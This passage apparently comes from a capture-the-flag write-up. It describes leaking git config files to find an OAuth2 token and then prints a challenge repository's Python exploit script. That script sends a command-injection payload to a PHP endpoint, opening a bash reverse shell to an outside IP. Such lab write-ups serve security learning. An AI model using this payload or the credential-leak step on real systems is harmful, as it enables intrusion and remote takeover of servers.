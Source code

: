 Leaking the git config files for both of the repositories reveals that the `sam-operator` repository has the `origin` remote set to FLAB's GitLab URL along with a valid OAuth2 token.

![](img/20241111170655.png)

Since I am unsure if this solution is intended (spoiler alert: it was not) and the token can be public, it is redacted. Simply changing the URL to a repo named `pimpam.git` allows to clone the challenge repository.

![](img/20241111171146.png)

The repository contains an exploit script, `exploit.py`, shown below. This code exploits an unauthenticated command injection in the `subnet-update-icmp.php` file.

```python
#!/usr/bin/env python3

import requests


URL = "http://localhost:8003"


def main():
    """main"""

    payload = "-1`bash -c 'bash -i >& /dev/tcp/10.101.2.9/65000 0>&1'`"
    resp = requests.post(f"{URL}/app/subnets/scan/subnet-update-icmp.php", data={"subnetId": payload})
    print(resp.headers)
    print(resp.content)


if __name__ == '__main__':
    main()
```
